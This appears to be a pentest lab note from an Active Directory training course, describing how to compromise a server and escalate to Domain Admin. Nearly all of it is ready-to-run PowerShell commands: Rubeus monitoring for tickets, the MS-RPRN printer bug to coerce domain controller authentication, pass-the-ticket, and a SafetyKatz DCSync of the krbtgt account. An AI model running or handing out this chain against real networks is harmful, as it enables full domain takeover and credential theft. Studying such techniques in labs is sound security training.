 Compromise the server and escalate to Domain Admin privileges*
Use rubeus on the server to run on listener mode
```powershell
echo F | xcopy C:\AD\Tools\Rubeus.exe \\<LISTENER MACHINE>\C$\Users\Public\Rubeus.exe /Y
```
log in the server
```powershell
winrs -r:<LISTENER MACHINE> cmd
```
Launch rubeus
```powershell
C:\Users\Public\Rubeus.exe monitor /targetuser:<TARGET MACHINE /interval:5 /nowrap
```
![[Pasted image 20231025163953.png]]
Now use MS-RPRN to force authentication from dcorp-dc$(Machine account)
```powershell
C:\AD\Tools\MS-RPRN.exe \\<TARGET MACHINE> \\<LISTENER MACHINE>
```
Rubeus is triggered
![[Pasted image 20231025164204.png]]
Copy the ticket and use it with rubeus on the local machine
```powershell
C:\AD\Tools\Rubeus.exe ptt /ticket:<TICKET>
```
![[Pasted image 20231025164640.png]]
And launch safetykatz to dcsync
```powershell
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:<MACHINE>\krbtgt" "exit"
```
